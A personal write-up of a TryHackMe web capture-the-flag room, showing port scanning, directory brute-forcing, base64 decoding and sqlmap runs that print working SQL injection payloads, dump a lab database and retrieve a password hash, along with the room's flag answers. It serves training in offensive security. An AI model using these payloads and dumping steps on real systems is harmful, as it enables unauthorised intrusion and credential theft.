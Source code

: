 <p align="left">November 6, 2024 - Hey there, fellow lifelong learner!<br>
I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure. It´s part of my $$\textcolor{#FF69B4}{\textbf{184}}$$-day-streak in  <a href="https://tryhackme.com/r/p/Rosana">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{&nbsp; CTF collection Vol.2}}$$
</h1>

<p align="center">Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.<br>
                  Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/ctfcollectionvol2">CTF collection VOl.2</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/6628e1a4-ea67-4e69-b719-702b2fc07e4c">
  <img height="150px" src="https://github.com/user-attachments/assets/88772c45-e475-4d0a-a8cb-c1c1440725d7">
</p>

<h2>Task 1 - Author note</h2>

<p>Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.<br>

Now, deploy the machine and collect the eggs!</p>

<p>Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style> tag.</p>

Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise</p>

> 1.1 - <em>Fact: Eggs contain the highest quality protein you can buy.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>



<h2>Task 2 - Easter egg</h2>

<p>Submit all your easter egg right here. Gonna find it all!</p>

> 2.1 - <em>Easter 1</em><br>
> <code>Question Hint</code>: Check the robots.
>> <strong>THM{4u70b07_r0ll_0u7}</strong>
<p></p>

<pre><code>$ rustscan -a 10.10.157.196 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
\U0001f30dHACK THE PLANET\U0001f30d

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.157.196:22
Open 10.10.157.196:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-06 21:27 UTC
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 21:27
Scanning 10.10.157.196 [2 ports]
Completed Ping Scan at 21:27, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:27
Completed Parallel DNS resolution of 1 host. at 21:27, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:27
Scanning ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196) [2 ports]
Discovered open port 80/tcp on 10.10.157.196
Discovered open port 22/tcp on 10.10.157.196
Completed Connect Scan at 21:27, 0.00s elapsed (2 total ports)
Initiating Service scan at 21:27
Scanning 2 services on ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Completed Service scan at 21:28, 6.09s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.157.196.
SE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.03s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.04s elapsed
Nmap scan report for ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Host is up, received syn-ack (0.00050s latency).
Scanned at 2024-11-06 21:27:53 UTC for 7s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.01 seconds
</code></pre>

![image](https://github.com/user-attachments/assets/7cf7a060-19c7-4740-9d08-d7c85c32c93f)

<pre><code>root@ip-[Attack_IP]:~# gobuster dir -u http://10.10.157.196 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.196
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 301) [Size: 314] [--> http://10.10.157.196/login/]
/index                (Status: 200) [Size: 94328]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 314] [--> http://10.10.157.196/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 314] [--> http://10.10.157.196/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 314] [--> http://10.10.157.196/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 317] [--> http://10.10.157.196/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 294]
Progress: 135446 / 220561 (61.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 136330 / 220561 (61.81%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~# 
</code></pre>

![image](https://github.com/user-attachments/assets/80d5876a-803a-4afe-be31-e0c21c0004ad)

![image](https://github.com/user-attachments/assets/710449d5-e0fa-4547-873a-d689be15fc48)

<pre><code>root@ip-[Attack_IP]:~# echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d" | xxd -r -p
Easter 1: THM{4u70b07_r0ll_0u7}
root@ip-[Attack_IP]:~# 
</code></pre>

<br>

> 2.2 - <em>Easter 2</em><br>
> <code>Question Hint</code>: Decode the base64 multiple times. Don't forget there are something being encoded.
>> <strong>THM{f4ll3n_b453}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/6d2d90e5-e448-4968-9201-27d4026d44b7)

<pre><code>root@ip-[Attack_IP]:~# sudo apt-get install gridsite-clients
</code></pre>

<pre><code>root@ip-[Attack_IP]:~# urlencode -d $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
DesKel_secret_base
</code></pre>

![image](https://github.com/user-attachments/assets/34444a26-e7bc-418f-9ec4-2bf011f9ab03)

![image](https://github.com/user-attachments/assets/febcb3a7-3bbc-4e89-ad25-ad043f9daa53)     

<br>

> 2.3 - <em>Easter 3</em><br>
> <code>Question Hint</code>: Directory buster with common.txt might help.
>> <strong>THM{y0u_c4n'7_533_m3}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/0059e8dc-d592-4055-b802-8b35c146d8dc)

![image](https://github.com/user-attachments/assets/4c0cf585-4d13-4ecd-bee6-197160b3b139)

<br>

> 2.4 - <em>Easter 4</em><br>
> <code>Question Hint</code>: time-based sqli
>> <strong>THM{1nj3c7_l1k3_4_b055}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/56d0d814-c921-4443-8361-a38febbae083)

![image](https://github.com/user-attachments/assets/5b40e8da-e1a9-4c97-965c-e1b5905d80ed)

![image](https://github.com/user-attachments/assets/190353b2-b02f-4305-8e98-95c06212613e)

<pre><code>root@ip-[Attack_IP]:~# sqlmap -r request.txt --dbs --level 3 --risk 3
...
...
22:12:17] [INFO] testing 'MySQL >= 5.0.12 time-based blind - ORDER BY, GROUP BY clause'
[22:12:17] [INFO] testing 'MySQL <= 5.0.11 time-based blind - ORDER BY, GROUP BY clause (heavy query)'
[22:12:17] [INFO] testing 'Generic UNION query (93) - 1 to 10 columns'
[22:12:18] [INFO] testing 'MySQL UNION query (93) - 1 to 10 columns'
[22:12:20] [WARNING] User-Agent parameter 'User-Agent' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 21062 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:12:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:12:20] [INFO] fetching database names
[22:12:20] [INFO] fetching number of databases
[22:12:20] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:12:20] [INFO] retrieved: 4
[22:12:20] [INFO] retrieved: information_schema
[22:12:21] [INFO] retrieved: THM_f0und_m3
[22:12:21] [INFO] retrieved: mysql
[22:12:21] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:12:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:12:22
</code></pre>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -D THM_f0und_m3 --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:14:05

[22:14:05] [INFO] parsing HTTP request from 'request'
[22:14:05] [INFO] resuming back-end DBMS 'mysql' 
[22:14:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:14:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:14:05] [INFO] fetching database names
[22:14:05] [INFO] fetching number of databases
[22:14:05] [INFO] resumed: 4
[22:14:05] [INFO] resumed: information_schema
[22:14:05] [INFO] resumed: THM_f0und_m3
[22:14:05] [INFO] resumed: mysql
[22:14:05] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:14:05] [INFO] fetching tables for database: 'THM_f0und_m3'
[22:14:05] [INFO] fetching number of tables for database 'THM_f0und_m3'
[22:14:05] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:14:05] [INFO] retrieved: 2
[22:14:05] [INFO] retrieved: nothing_inside
[22:14:06] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[22:14:06] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_ID]'

[*] shutting down at 22:14:06

root@ip-[Attack_IP]:~# 
</code></pre>

<br>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --columns
       ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:17:23

[22:17:23] [INFO] parsing HTTP request from 'request'
[22:17:23] [INFO] resuming back-end DBMS 'mysql' 
[22:17:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:17:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:17:23] [INFO] fetching database names
[22:17:23] [INFO] fetching number of databases
[22:17:23] [INFO] resumed: 4
[22:17:23] [INFO] resumed: information_schema
[22:17:23] [INFO] resumed: THM_f0und_m3
[22:17:23] [INFO] resumed: mysql
[22:17:23] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:17:23] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[22:17:23] [INFO] fetching current database
[22:17:23] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:17:23] [INFO] retrieved: THM_f0und_m3
[22:17:23] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[22:17:23] [INFO] retrieved: 1
[22:17:23] [INFO] retrieved: Easter_4
[22:17:24] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[22:17:24] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:17:24

root@ip-10-10-146-248:~# 
</code></pre>


<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
       ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:19:29

[22:19:29] [INFO] parsing HTTP request from 'request'
[22:19:29] [INFO] resuming back-end DBMS 'mysql' 
[22:19:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:19:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:19:29] [INFO] fetching database names
[22:19:29] [INFO] fetching number of databases
[22:19:29] [INFO] resumed: 4
[22:19:29] [INFO] resumed: information_schema
  ...
  ...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

[22:20:01] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:20:01] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: username
[22:20:01] [INFO] retrieved: password
[22:20:01] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: 05f3672ba34409136aa71b8d00070d1b
[22:20:03] [INFO] retrieved: DesKel
[22:20:03] [INFO] retrieved: He is a nice guy, say hello for me
...  
</code></pre>

<br>


> 2.5 - <em>Easter 5</em><br>
> <code>Question Hint</code>:
>> <strong>______</strong>
<p></p>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+
...
[22:45:04] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:45:04] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] resumed: 2
[22:45:04] [INFO] resumed: username
[22:45:04] [INFO] resumed: password
[22:45:04] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] resumed: 2
[22:45:04] [INFO] resumed: 05f3672ba34409136aa71b8d00070d1b
[22:45:04] [INFO] resumed: DesKel
[22:45:04] [INFO] resumed: He is a nice guy, say hello for me
[22:45:04] [INFO] resumed: Skidy
[22:45:04] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:45:09] [INFO] writing hashes to a temporary file '/tmp/sqlmapt34iIC14886/sqlmaphashes-XYsiDb.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] 

                                                              
Database: THM_f0und_m3                                                                                                                      
Table: user
[2 entries]


  
</code></pre>

![image](https://github.com/user-attachments/assets/dc41a558-f11a-4fef-98ca-e27711b03a3b)




> 2.6 - <em>Easter 6</em><br>
>> <strong>______</strong><br>
<p><br></p>

> 2.7 - <em>Easter 7</em><br>
>> <strong>______</strong><br>
<p><br></p>

> 2.8 - <em>Easter 8</em><br>
>> <strong>______</strong><br>
<p><br></p>

> 2.9 - <em>Easter 9</em><br>
>> <strong>______</strong><br>
<p><br></p>

> .2.10 - <em>Easter 10</em><br>
>> <strong>______</strong><br>
<p><br></p>







